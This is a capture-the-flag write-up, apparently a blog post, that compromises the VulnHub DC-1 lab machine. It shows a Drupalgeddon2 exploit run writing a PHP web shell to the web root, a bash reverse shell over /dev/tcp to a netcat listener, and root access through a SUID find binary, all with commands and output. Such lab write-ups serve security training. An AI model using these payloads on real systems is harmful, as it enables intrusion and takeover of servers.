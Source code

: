 ```yaml
---
layout: post
author: H4
---
```

# PG VULNHUB DC-1
[Details](https://www.vulnhub.com/entry/dc-1,292/)

## enumeration

Performing a `nmap` scan to identify the attack surface of the target.

### nmap
```bash
nmap 192.168.200.193       
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-27 13:38 EDT
Nmap scan report for 192.168.200.193
Host is up (0.058s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
111/tcp open  rpcbind

Nmap done: 1 IP address (1 host up) scanned in 1.50 seconds
```

### web server (port 80)
- `gobuster` did not reveal anything useful on the web server on port `80`
- website with drupal installation  
-> maybe vulnerable to `druaplgeddon`

---

## exploitation
### durpalgeddon2
```bash
git clone https://github.com/dreadlocked/Drupalgeddon2.git
```

```bash
ruby drupalgeddon2.rb http://192.168.200.193/
[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[i] Target : http://192.168.200.193/
--------------------------------------------------------------------------------
[!] MISSING: http://192.168.200.193/CHANGELOG.txt    (HTTP Response: 404)
[!] MISSING: http://192.168.200.193/core/CHANGELOG.txt    (HTTP Response: 404)
[+] Found  : http://192.168.200.193/includes/bootstrap.inc    (HTTP Response: 403)
[+] Header : v7 [X-Generator]
[!] MISSING: http://192.168.200.193/core/includes/bootstrap.inc    (HTTP Response: 404)
[!] MISSING: http://192.168.200.193/includes/database.inc    (HTTP Response: 403)
[+] Found  : http://192.168.200.193/    (HTTP Response: 200)
[+] Metatag: v7.x [Generator]
[!] MISSING: http://192.168.200.193/    (HTTP Response: 200)
[+] Drupal?: v7.x
--------------------------------------------------------------------------------
[*] Testing: Form   (user/password)
[+] Result : Form valid
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Clean URLs
[+] Result : Clean URLs enabled
--------------------------------------------------------------------------------
[*] Testing: Code Execution   (Method: name)
[i] Payload: echo OZFKXPOT
[+] Result : OZFKXPOT
[+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
--------------------------------------------------------------------------------
[*] Testing: Existing file   (http://192.168.200.193/shell.php)
[i] Response: HTTP 404 // Size: 13
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Writing To Web Root   (./)
[i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee shell.php
[+] Result : <?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }
[+] Very Good News Everyone! Wrote to the web root! Waayheeeey!!!
--------------------------------------------------------------------------------
[i] Fake PHP shell:   curl 'http://192.168.200.193/shell.php' -d 'c=hostname'
DC-1>> whoami
www-data
```

Yay! RCE works!

---

## post exploitation
### full reverse shell
`drupalgeddon` deploys a simple `shell.php` and we will exploit this to get a cute reverse shell.

#### listener on attacker machine
```bash
nc -lvp 80
listening on [any] 80 ...
```

#### on target machine
payload: `bash -c 'bash -i >& /dev/tcp/192.168.49.200/80 0>&1'`
```http
GET /shell.php?c=bash+-c+'bash+-i+>%26+/dev/tcp/192.168.49.200/80+0>%261' HTTP/1.1
Host: 192.168.200.193
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: has_js=1
Connection: close
```

#### catch reverse connection
```bash
nc -lvp 80
listening on [any] 80 ...
192.168.200.193: inverse host lookup failed: Unknown host
connect to [192.168.49.200] from (UNKNOWN) [192.168.200.193] 45807
bash: no job control in this shell
www-data@DC-1:/var/www$ whoami
whoami
www-data
```

#### make it beautiful
```bash
www-data@DC-1:/var/www$ python -c 'import pty;pty.spawn("/bin/bash")'
python -c 'import pty;pty.spawn("/bin/bash")'
www-data@DC-1:/var/www$ export TERM=xterm
export TERM=xterm
```

hit CTRL+Z
```bash
www-data@DC-1:/var/www$ ^Z
zsh: suspended  nc -lvp 80
stty raw -echo; fg                                                                 
[1]  + continued  nc -lvp 80

www-data@DC-1:/var/www$ whoami 
www-data
```
Now we got a fully interactive shell with autocomplete etc. :)

### first flag
```bash
www-data@DC-1:/var/www$ cd /
www-data@DC-1:/$ cd home
www-data@DC-1:/home$ ls
flag4  local.txt
www-data@DC-1:/home$ cat local.txt
778d27ce4cbf**********90457817c8
```
-> `778d27ce4cbf**********90457817c8`

### privilege escalation
#### check for suid binaries
```bash
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
-rwsr-xr-x 1 root root 88744 Dec 10  2012 /bin/mount
-rwsr-xr-x 1 root root 31104 Apr 13  2011 /bin/ping
-rwsr-xr-x 1 root root 35200 Feb 27  2017 /bin/su
-rwsr-xr-x 1 root root 35252 Apr 13  2011 /bin/ping6
-rwsr-xr-x 1 root root 67704 Dec 10  2012 /bin/umount
-rwxr-sr-x 1 root ssh 128396 Jan 27  2018 /usr/bin/ssh-agent
-rwsr-sr-x 1 daemon daemon 50652 Oct  4  2014 /usr/bin/at
-rwxr-sr-x 1 root mlocate 30492 Sep 25  2010 /usr/bin/mlocate
-rwxr-sr-x 1 root mail 17908 Nov 18  2017 /usr/bin/lockfile
-rwsr-xr-x 1 root root 35892 Feb 27  2017 /usr/bin/chsh
-rwxr-sr-x 1 root shadow 49364 Feb 27  2017 /usr/bin/chage
-rwxr-sr-x 1 root tty 9708 Jun 11  2012 /usr/bin/bsd-write
-rwsr-xr-x 1 root root 45396 Feb 27  2017 /usr/bin/passwd
-rwsr-xr-x 1 root root 30880 Feb 27  2017 /usr/bin/newgrp
-rwsr-xr-x 1 root root 44564 Feb 27  2017 /usr/bin/chfn
-rwxr-sr-x 1 root mail 9768 Nov 30  2014 /usr/bin/mutt_dotlock
-rwxr-sr-x 1 root tty 18020 Dec 10  2012 /usr/bin/wall
-rwxr-sr-x 1 root crontab 34760 Jul  4  2012 /usr/bin/crontab
-rwxr-sr-x 1 root shadow 18168 Feb 27  2017 /usr/bin/expiry
-rwsr-xr-x 1 root root 66196 Feb 27  2017 /usr/bin/gpasswd
-rwsr-sr-x 1 root mail 83912 Nov 18  2017 /usr/bin/procmail
-rwsr-xr-x 1 root root 162424 Jan  6  2012 /usr/bin/find
-rwxr-sr-x 1 root mail 13960 Dec 12  2012 /usr/bin/dotlockfile
-rwsr-xr-x 1 root root 937564 Feb 11  2018 /usr/sbin/exim4
-rwsr-xr-x 1 root root 9660 Jun 20  2017 /usr/lib/pt_chown
-rwsr-xr-x 1 root root 248036 Jan 27  2018 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 5412 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-- 1 root messagebus 321692 Feb 10  2015 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwxr-sr-x 1 root utmp 4972 Feb 21  2011 /usr/lib/utempter/utempter
-rwxr-sr-x 1 root shadow 30332 May  5  2012 /sbin/unix_chkpwd
-rwsr-xr-x 1 root root 84532 May 22  2013 /sbin/mount.nfs
```
-> `find` looks juicy!  
  
Check [gtfobins](https://gtfobins.github.io/) on how to exploit `find` to gain `root` access.

```bash
www-data@DC-1:/home$ whereis find
find: /usr/bin/find /usr/bin/X11/find /usr/share/man/man1/find.1.gz
www-data@DC-1:/home$ find . -exec /bin/sh \; -quit    
# whoami
root
```

### second flag
```bash
# cd /root
# ls
proof.txt  thefinalflag.txt
# cat proof.txt
040ec3eeb86**********c55f2574131
```
-> `040ec3eeb86**********c55f2574131`  
  
Pwned! <@:-)
